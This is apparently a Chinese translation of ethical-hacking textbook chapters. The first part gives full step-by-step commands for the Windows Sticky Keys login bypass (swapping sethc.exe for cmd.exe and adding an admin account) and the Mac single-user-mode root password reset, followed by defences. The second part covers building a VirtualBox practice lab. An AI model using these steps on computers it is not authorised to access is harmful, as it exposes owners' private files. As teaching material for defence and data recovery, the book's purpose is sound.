物理访问攻击听起来可能很可怕，因为它们可以被攻击者恶意用于被盗或无人看管的电脑上。然而，它们也有建设性的应用。家里的道德黑客和 IT 服务台使用 Sticky Keys 攻击或 Mac root 攻击等技术来恢复因忘记密码而原本会丢失的文件。如果你车库或阁楼里有一台旧电脑，里面有家庭照片或其他重要文件，但由于没人记得电脑密码而无法访问，这些漏洞可以帮助你。

## Sticky Keys 攻击
Sticky Keys 是 Windows 的一项功能，通过允许你依次按下按键而不是同时按下，使发出某些键盘命令（如 `CTRL-C` 复制或 `CTRL-V` 粘贴）变得更容易。Sticky Keys 可通过按五次 `SHIFT` 触发，甚至可以在 Windows 登录屏幕上启用，在输入用户名或密码之前。

对于这个漏洞，我们将用另一个文件 `cmd.exe` 替换 Sticky Keys 程序文件。这样，按五次 `SHIFT` 就不会启动通常的 Sticky Keys 助手，而是会启动一个 `command prompt`。这是一个基于文本的程序，允许我们直接向 Windows 输入命令。通过在登录屏幕上启动命令提示符（参见 图 2-1），你将能够添加新的用户名和密码，为自己提供对电脑的管理员级访问权限，并访问电脑的文件，所有这些都不需要知道该电脑的登录信息！

由于 2019 年或之后更新的 Windows 10 电脑已不受 Sticky Keys 攻击影响，你需要一台较旧的 Windows 电脑来亲自尝试此漏洞。你还需要一个 Windows 10 安装光盘或 USB 驱动器。要创建它，请按照附录 A 中的说明操作。

### 从 Windows 10 安装光盘启动
要将 Sticky Keys 程序替换为命令提示符程序，我们需要使用 Windows 10 安装光盘或 USB 驱动器访问包含这些程序文件硬盘。一旦你按照附录 A 中所述创建了安装光盘，请插入光盘然后重新启动电脑。



图 2-1：Sticky Keys 攻击会弹出命令提示符窗口而不是 Sticky Keys 助手。

我们需要告诉电脑从光盘或 USB 驱动器而不是从电脑硬盘加载操作系统（OS）。为此，我们将访问启动菜单或 *基本输入/输出系统 (BIOS)*，它包含在电脑启动时控制电脑的基本设置。不同的 PC 制造商和不同版本的 Windows 会导致说明略有不同，但以下步骤结合一点网络搜索将使你进入大多数较旧的 Windows 电脑：


### Windows 粘滞键漏洞利用

## 通过安装介质访问 Windows 命令提示符

1. 在 Windows 计算机上，您按一个特殊键来访问启动菜单或 BIOS。如果启动屏幕在 Windows 启动标志出现之前没有显示您需要按哪个键，请重新启动计算机，并在启动开始时迅速按下 `ESC`、`DELETE`、`F8`、`F9`、`F10`、`F11` 或 `F12`。在网上搜索“启动菜单”以及您计算机的具体品牌和型号以找到正确的键。

2. 如果启动菜单出现，请选择 **从 DVD 启动** 或 **从 USB 启动** 选项以从您插入的 Windows 安装光盘启动，然后继续执行步骤 5。

3. 如果启动菜单在几次重启后仍未出现，请尝试进入 BIOS 菜单：再次关闭并打开计算机，然后按下 `DELETE`、`F2`、`F9`、`F10`、`F12` 或 `ESC`。在网上搜索“BIOS”以及您的计算机型号以找到正确的键。

4. 进入 BIOS 后，找到启动选项并更改启动设备的顺序或优先级（通常使用方向键），使 USB 或 DVD 成为首选选项。然后保存更改并退出 BIOS。

5. 再次重启计算机。您应该会短暂看到消息 `Press any key to boot from CD or DVD` 或 `Press any key to boot from USB device`。按下任意键（例如空格键）*立即* 从您的 DVD 或 USB 启动。

6. 当 Windows 安装光盘启动时，点击 **下一步**▶**修复你的电脑**▶**疑难解答**▶**命令提示符**，如 图 2-2 所示。菜单顺序或选项名称可能看起来不同，但请查找 Windows 命令提示符。


图 2-2：使用 Windows 安装光盘访问命令提示符。

7. 一旦到达 Windows 命令提示符（通常是一个黑色、基于文本的窗口），输入 `c:` 并按 `ENTER` 切换到 `C:` 驱动器，如下所示：

```
X:\> c:
```

8. 输入命令 `dir` 查看 `C:` 驱动器上的文件和文件夹列表。查找名为 `Windows` 的文件夹（它将被标记为 `<DIR>`，缩写为 *目录*）。

```
C:\> dir Volume in drive C is Windows 10 Volume Serial Number is B4EF-FAC7 Directory of C:\--snip--
03/15/2018  02:51 AM    <DIR>            Users
05/19/2019  10:09 AM    <DIR>            Windows 1--snip--
```

此文件夹 1 包含操作系统文件，包括命令提示符应用程序和我们需要交换以执行此漏洞利用的粘滞键程序文件。

9. 如果 `C:` 驱动器上没有 `Windows` 目录，请在 `D:` 驱动器上尝试相同的过程，输入 `d:` 然后 `dir`。如果 `D:` 驱动器也没有 `Windows` 目录，请继续按字母顺序尝试（`E:`、`F:`、`G:` 等），直到找到包含 `Windows` 的驱动器。

### 获取管理员级别访问权限

现在将 `sethc.exe` 粘滞键程序替换为 `cmd.exe` 命令提示符程序。然后我们将能够在计算机上创建一个新的管理员账户。

1. 输入以下三个命令：

```
C:\> cd \Windows\System32\
C:\Windows\System32\> copy sethc.exe sethc.bak
C:\Windows\System32\> copy cmd.exe sethc.exe
```

这些命令进入可以找到 `sethc.exe` 和 `cmd.exe` 的目录，创建粘滞键程序的备份副本，并用命令提示符程序文件的副本替换原始粘滞键程序文件。这样，每当计算机运行 `sethc.exe` 时，它将打开一个命令提示符窗口代替粘滞键程序。

2. 在第三个命令之后，Windows 会询问您是否要覆盖 `sethc.exe`。输入 `Y` 继续。

3. 移除 Windows 10 安装 DVD 或 USB 并重启计算机。

4. 当 PC 启动到登录屏幕时，按五次 `SHIFT`。而不是通常的粘滞键程序，您应该会看到一个命令提示符窗口弹出*在前面*登录屏幕，如 图 2-3 所示。


图 2-3：打开命令提示符窗口

5. 在命令提示符窗口中输入以下两个命令：

```
C:\Windows\System32\> net user ironman Jarvis /add
C:\Windows\System32\> net localgroup administrators ironman /add
```

第一个命令在 Windows 计算机上添加一个名为 `ironman` 且密码为 `Jarvis` 的用户账户。第二个命令将 `ironman` 用户添加到本地管理员列表中。这意味着当我们以 `ironman` 登录时，我们将对计算机上的所有文件具有管理员级别的访问权限。

6. 当您看到 图 2-4 中类似的成功消息时，关闭命令提示符。


图 2-4：我们已成功将名为 `ironman` 的用户添加为此计算机的管理员。

除了创建新用户账户外，您还可以通过在命令提示符窗口中输入 `net user` 后跟现有用户名和您想要设置的新密码来重置现有用户的密码——例如，`net user bryson Thisisyournewpassword!`。但是，您绝不应在未经他人许可和计算机所有者许可的情况下重置他人的密码。

### 现在您是管理员。登录！

恭喜！您现在已作为管理员访问该机器。请继续登录。输入 `.\ironman` 作为用户名（或从账户列表中选择 `ironman`，如 图 2-5 所示）。`ironman` 前面的点和反斜杠告诉 Windows 该账户是本地计算机的，而不是存储在网络服务器上。输入用户名后，输入密码 `Jarvis`。


图 2-5：您现在可以使用 `ironman` 用户登录此 Windows PC。

由于我们将 `ironman` 用户设为本地管理员组的成员，您应该对 *全部* 文件和文件夹具有管理员级别的访问权限，包括 `C:\\Users\\` 中的所有用户和文档，如 图 2-6 所示。


图 2-6：作为管理员级别用户，您可以看到 *全部* 用户的文件，而不仅仅是您自己的。

当您第一次点击另一个用户的文件夹时，您会看到一个弹出消息，提示您需要权限来打开另一个用户的文件，如 图 2-7 所示。由于您是管理员，请点击 **继续** 为自己授予永久访问权限！


图 2-7：管理员可以授予自己访问任何人文件的权限在同一台计算机上。

粘滞键漏洞利用仅适用于 Windows 机器。然而，运行 macOS 的计算机也容易受到物理访问漏洞利用的影响。

## Mac Root 漏洞利用

与粘滞键漏洞利用类似，Mac root 漏洞利用是一种物理访问攻击，可让您获得对计算机的管理员级别访问权限。它使您成为 `root` 用户，即 macOS 计算机上的管理员级别账户。对于此漏洞利用，您只需要一台 Mac 计算机。我们将以 `single-user mode` 重启 Mac，这是一种故障排除和修复登录。从那里，我们可以更改 root 用户的密码，从而访问计算机上的所有文件。

### 更新 Root 用户设置

1. 开始时，Mac 需要完全关闭——不仅仅是休眠。如果它尚未关闭，请按住电源按钮约六秒钟。


2. 按住 `COMMAND-S`（⌘-S）同时再次按下电源按钮以进入单用户模式。你应该会看到一个功能非常有限的基于文本的命令行终端窗口，如图 2-8 所示。


图 2-8：Mac 上单用户模式启动屏幕的一部分

终端提示符应包含 `root#`（如果在最后一行不可见，请按几次回车，它就会出现），表示我们已以 root 或管理员用户身份登录到命令行。

3. 输入以下命令以挂载或连接到硬盘：
```
localhost:/ root# /sbin/fsck -fy
localhost:/ root# /sbin/mount -uw /
```

4. 现在连接到 Open Directory 服务的属性列表，或 `plist`：
```
localhost:/ root# launchctl load /System/Library/LaunchDaemons/com.apple.opendirectoryd.plist
```
你的 Mac 使用 Open Directory 来跟踪用户、组、文件共享，甚至 Wi-Fi 打印机。可以把它想象成你 Mac 上所有用户账户和权限的目录。

5. 如果运行上一条命令后出现错误，请尝试改运行以下命令——它与步骤 4 相同，但适用于较旧的 Mac：
```
localhost:/ root# launchctl load /System/Library/LaunchDaemons/com.apple.DirectoryServices.plist
```

6. 现在要更改 root 用户的密码。输入此命令：
```
localhost:/ root# passwd
```

7. 输入新密码。输入时屏幕上不会显示密码字符。然后再次输入密码以确认更改。（如果输入错误，请再次以单用户模式启动并执行同样的操作——它每次都应重置 root 用户的密码。）

## 你现在是 Root 用户了！
做得好！现在你已将 root 用户的密码更改为你知道的内容，你可以随时以 root 用户身份登录。立即试试：要么在命令行输入 `reboot` 重启计算机，要么按下电源按钮关闭并重新打开计算机。当计算机正常启动到 Mac 登录屏幕时，输入 `root` 作为用户名并输入你刚刚设置的密码，如图 2-9 所示。


图 2-9：Mac root 攻击后，你可以用攻击中设置的密码以 root 用户身份登录。

点击通过你看到的任何设置屏幕，很快就会到达 Mac 桌面。你应该会在屏幕顶部的菜单栏中看到你已以系统管理员身份登录。你现在可以访问 Mac 上所有用户的文件和文件夹！

## 其他物理攻击
除了 Sticky Keys 攻击和 Mac root 攻击之外，还有许多物理访问攻击。事实上，几乎任何可启动光盘——如 Ultimate Boot CD、KNOPPIX、SystemRescueCd 或 Trinity Rescue Kit——都可以让你访问你有物理访问权限的计算机硬盘上的文件。还有专门制作的黑客工具，如 Rubber Ducky 和 Bash Bunny，价格不到 100 美元，外观像普通 USB 驱动器，但包含用于入侵计算机的自动化工具。一些物理访问攻击甚至使用语音命令。例如，Open Sesame! 攻击利用了微软的 Cortana 语音助手，通过让 Cortana 打开 USB 驱动器或网站上的恶意文件来绕过登录屏幕。

## 防御物理攻击
正如你所见，物理访问攻击可以帮助你恢复旧照片、复制文件，并在几乎任何你能触及的计算机上更改用户，甚至无需原始密码。然而，这也意味着任何拥有物理访问权限并了解这些攻击的人也可以访问*你*的私人文件和信息！因此，重要的是将设备随身携带或锁在安全区域内。

如果有人设法访问你的计算机，仍然有几种方法可以保护你的数据。其中一种是设置 *固件密码*，也称为 *BIOS 密码* 或 *EFI 密码*。Mac 和大多数 PC 上的此选项可以防止攻击者篡改计算机的 BIOS/UEFI 设置，从而 neutralizing 如 Sticky Keys 攻击和 Mac root 攻击等漏洞利用。不幸的是，固件密码只是防御的一层，并且经常会被绕过。例如，有动机的攻击者可以从计算机电路板上移除电池，从而擦除大多数 PC 上存储的固件密码。

更可靠的方法是 *加密* 你的文件，将其打乱成无法读取的形式，只有用密码才能 *解密*（解乱）。加密密码与计算机的登录密码不同，因此攻击者无法通过 Sticky Keys 或 Mac root 攻击更改用户密码来查看加密文件的内容。我们将在第 11 章更详细地讨论加密。

## 总结
在本章中，你了解了如何使用 Windows Sticky Keys 攻击和 Mac root 攻击在不知道用户名和密码的情况下获得对计算机上所有文件和用户账户的管理员级访问。你还了解到还有其他物理攻击和一些专用工具，如 Rubber Ducky 和 Bash Bunny，使物理攻击变得更加容易。虽然你可以使用这些攻击来恢复丢失的文件或重置忘记的密码，但你也发现了拥有物理访问权限的攻击者通常可以访问你计算机上的每一条信息。你可以通过限制谁可以访问你的计算机、设置固件密码以及加密文件来防御这些攻击。

现在你已经了解了物理安全的重要性，是时候开始思考其他可能使你的计算机处于危险之中的攻击了——恶意网站、网络钓鱼和感染的电子邮件附件，甚至是对日常生活中联网智能设备的攻击。为了能够安全地练习这些其他类型的攻击并学习如何防御它们，你将在第 3 章设置自己的私有虚拟黑客实验室。

# 第 3 章 建立你自己的虚拟黑客实验室


为了安全和合乎道德地学习黑客技术，你将使用 `virtual machines (VMs)`，即在你的物理台式机或笔记本电脑内模拟独立计算机的程序。你可以隔离一个 VM，使其内部的任何操作都不会影响你的计算机或网络。例如，如果你在 VM 中打开一个带病毒的文件，病毒只会感染虚拟机，而不会感染你的真实计算机。

`Virtualization software` 让你在台式机或笔记本电脑（`host`）上运行虚拟机（称为 `guest`）。在本章中，我们将安装 `VirtualBox`，一个免费的虚拟化程序，以及 VirtualBox 扩展包。然后我们将创建两个 VM。第一个将是运行 Kali Linux 操作系统的 *攻击* VM。你将使用此 VM 来启动你的攻击。另一个虚拟机将是运行 Windows 的 *目标* VM。你将把攻击指向这台机器。设置好这两个 VM 后，你就可以安全地尝试黑客工具，而不会影响你的计算机或他人的计算机。

## 设置 VirtualBox
按照以下说明下载和设置 VirtualBox。

1. 前往 VirtualBox 主页 at [`www.virtualbox.org/`](https://www.virtualbox.org/) 并点击 **Download VirtualBox** 按钮。

2. VirtualBox 下载页面列出了 Windows、macOS 和多个 Linux 主机操作系统的选项。点击与你的计算机匹配的选项以下载 VirtualBox 的最新版本。

3. 打开下载的文件并按照屏幕上的说明安装 VirtualBox。（Windows 用户应选择以管理员身份运行该文件；你必须具有管理员权限才能运行 VirtualBox。）


## 安装 VirtualBox 扩展包

除了 VirtualBox 本身之外，您还需要安装 VirtualBox 扩展包，它会添加所需的功能，例如支持将更新的 USB 设备连接到您的虚拟机。现在就安装它吧。

1. 返回 VirtualBox 下载页面（[`www.virtualbox.org/wiki/Downloads`](https://www.virtualbox.org/wiki/Downloads)），找到 VirtualBox Extension Pack 部分，然后点击 **所有受支持的平台** 下载扩展包。
2. 打开 VirtualBox。（在 Windows 上，请务必右键单击 VirtualBox 图标并选择 **以管理员身份运行**。）
3. 从您的 `Downloads` 文件夹打开扩展包。
4. VirtualBox 扩展包安装窗口打开后，点击 **安装**。

## 创建 Kali Linux 虚拟机

现在您已经安装了 VirtualBox，您将创建 Kali Linux 虚拟机。Kali 是全球道德黑客使用的 Linux 操作系统版本。它包含超过 600 种安全和黑客工具，因此是攻击虚拟机的完美操作系统。

1. 前往 [`www.kali.org/downloads/`](https://www.kali.org/downloads/)，向下滚动到 Virtual Machines 部分，然后点击链接前往 VM 下载页面。
2. 点击 **Kali Linux VirtualBox 镜像** 选项卡，查看与 VirtualBox 兼容的下载选项。务必查找 VirtualBox 镜像——还有为 VMware 制作的镜像，VMware 是一种不同的软件包，与 VirtualBox 不兼容。
3. 点击 **Kali Linux VirtualBox 64 位** 下载虚拟机。该文件约为 4GB，因此请在网络连接快速的地方下载。
4. 启动 VirtualBox 并选择 **文件**▶**导入设备**。
5. 点击右侧的文件夹图标并找到您的 Kali Linux 文件。选择文件，点击 **打开**，然后点击 **下一步**（在 PC 上）或 **继续**（在 Mac 上）。
6. 现在您应该会看到正在导入的 Kali Linux 虚拟机的设置列表。点击 **导入** 继续。
7. 虚拟机导入完成后，您将在 Oracle VM VirtualBox 管理器左侧看到它，如 图 3-1 所示。



图 3-1：Kali Linux 虚拟机出现在 VirtualBox 管理器左侧的列表中。

随着您添加其他虚拟机，它们会与 Kali 一同出现在列表中。现在，让我们测试新的 Kali 虚拟机，以确保它能在您的系统上运行。

## 运行 Kali 虚拟机

在 VirtualBox 管理器面板中双击 Kali Linux 虚拟机条目以启动 Kali Linux 虚拟机。首次在 VirtualBox 中运行虚拟机时，由于 Mac 或 PC 上的设置不同，您可能会遇到错误。如果您在运行 VirtualBox 或启动 Kali 虚拟机时遇到任何问题，请参阅附录 B。

虚拟机启动完成后，您将进入登录屏幕。使用用户名 `kali` 和密码 `kali` 登录。登录后，您将看到带有标志性 Kali 龙标志的屏幕，如 图 3-2 所示。欢迎使用 Kali Linux！

在计算机中使用计算机需要一些适应。一旦您点击进入虚拟机窗口，您的键盘和鼠标将被“捕获”供虚拟机使用。要将鼠标和键盘返回到您的物理（主机）计算机，请在虚拟机窗口外点击鼠标或按下键盘上的 *主机键*。在 PC/Linux 机器上，这应该是 *右* CTRL 键，在 Mac 上则是 *左* COMMAND 键。如果您需要提醒，主机键也应标识在虚拟机窗口的右下角。



图 3-2：您的 Kali Linux 虚拟机已准备就绪！

如果您发现虚拟机屏幕和图标太小，请前往 **查看**▶**虚拟屏幕 1** 并尝试更改缩放比例或分辨率。此外，如果您让虚拟机闲置一段时间，虚拟机窗口可能会变空白。如果发生这种情况，请点击 Kali 窗口并按空格键唤醒机器。

花点时间探索 Kali Linux。在本章后面设置网络之前，您将无法连接到互联网，但仍可以四处查看。点击屏幕顶部的 **应用程序** 菜单（带有龙标志的按钮）查看 Kali 的数百个程序和工具中的一些。它们现在可能看起来令人望而生畏，但本书将教您使用其中几种，帮助您更自信地探索其他工具。

在四处查看一番后，关闭 Kali Linux 虚拟机窗口。您应该会看到关闭虚拟机弹出窗口。选择 **保存机器状态** 并点击 **确定**。保存机器状态可让您下次打开虚拟机时从上次离开的地方继续，就像让计算机进入睡眠而不是完全关机一样。然而，如果您在安装软件或更改设置后需要重新启动虚拟机，则需要选择 **关闭机器**。

恭喜！您已设置好第一台虚拟机！如果这是您第一次使用 Linux，给自己一个高五吧！有了这个 Kali 虚拟机，您可以针对其他目标虚拟机测试数十种（甚至数百种）攻击，以了解在线攻击是如何发生的以及如何防御。我们接下来将设置其中一个目标虚拟机。

## 创建 Windows 虚拟机

您现在将创建一个运行 Windows 的第二个虚拟机。作为世界上最常见的桌面和笔记本操作系统，Windows 是道德黑客和非道德黑客的首要目标，因此学习攻击和防御它是一个重要的操作系统。我们将从 Microsoft Edge 开发者网站下载一个功能齐全的 Windows 10 虚拟机。

1. 前往 [`developer.microsoft.com/en-us/microsoft-edge/tools/vms/`](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/)（或搜索 Microsoft Edge 开发者虚拟机网站）。
2. 选择一个 Windows 10 虚拟机，选择 VirtualBox 作为您的平台，然后下载虚拟机。该文件超过 6GB，因此请在网络连接快速的地方下载此虚拟机。
3. 解压下载的文件。
4. 打开 VirtualBox 并选择 **文件**▶**导入设备**。
5. 点击右侧的文件图标并找到您的 Windows 10 虚拟机。它要么是 `.ova` 文件，要么是 `.ovf` 文件。选择文件，然后点击 **继续**。
6. 现在您应该会看到 Windows 10 虚拟机的设置列表。点击 **导入** 继续。
7. 导入完成后，Windows 虚拟机将与您的 Kali 虚拟机一起出现在 VirtualBox 管理器列表中，如 图 3-3 所示。



图 3-3：导入 Windows 虚拟机后，您将在虚拟道德黑客实验室中拥有两个虚拟机！

现在让我们打开 Windows 10 虚拟机以确保它能正常工作。在 VirtualBox 管理器列表中双击 Windows 10 虚拟机。虚拟机加载后，点击窗口内以显示 Windows 登录提示。使用默认用户名 `IEUser` 和默认密码 `Passw0rd!`（用零代替字母 *o*）登录。如果密码不起作用，请检查 Microsoft VM 下载页面。默认密码应列在下载按钮下方。

虚拟桌面加载后，四处点击并探索一下。它就像一台普通的 Windows 计算机。您目前还无法上网，但我们将在下一节设置虚拟网络。探索完 Windows 虚拟机后，关闭虚拟机并选择 **关闭机器**。您需要完全关闭虚拟机才能更改网络设置。

您现在在道德黑客实验室中有两个虚拟机，即 Kali Linux 虚拟机和 Windows 10 虚拟机。我们将在未来章节中根据需要添加更多虚拟机。一旦我们将这两个虚拟机连接起来，您就可以在不危及笔记本电脑或台式机的情况下练习攻击和防御。


## 将您的虚拟机连接到虚拟网络

默认情况下，新的虚拟机连接到 *仅主机网络*，意味着您只能从主机计算机访问它们。为了让您的虚拟机相互连接并访问互联网，我们将创建一个 *虚拟网络*。将 Windows 和 Kali 机器连接到虚拟网络就像将它们连接到同一个 Wi-Fi 网络一样。

1. 在 VirtualBox 中，转到 **File**▶**Preferences**（或在 Mac 上为 **VirtualBox**▶**Preferences**）。
2. 转到 **Network** 选项卡并单击绿色的添加图标（带加号的那个）以创建一个新的虚拟网络。
3. 列表中应出现一个新的网络（名称类似 `NatNetwork`）。确保网络名称旁边的活动列下的框已选中。
4. 选择该网络，然后单击设置图标（带黄色齿轮的那个）。
5. 在网络名称框中输入 `PublicNAT`，并通过键入 **10.0.9.0/24** 来更改网络 CIDR 文本框，以为虚拟机设置 IP 地址。
6. 保持选中“支持 DHCP”复选框，然后连续单击 **OK** 两次以完成网络创建。

我们的下一个任务是将您的虚拟机连接到您创建的 `PublicNAT` 网络。

### 连接您的 Kali VM

我们将首先将 Kali VM 连接到网络并测试连接。

1. 在 Oracle VM VirtualBox 管理器中，单击您的 Kali VM，然后单击 **Settings**。
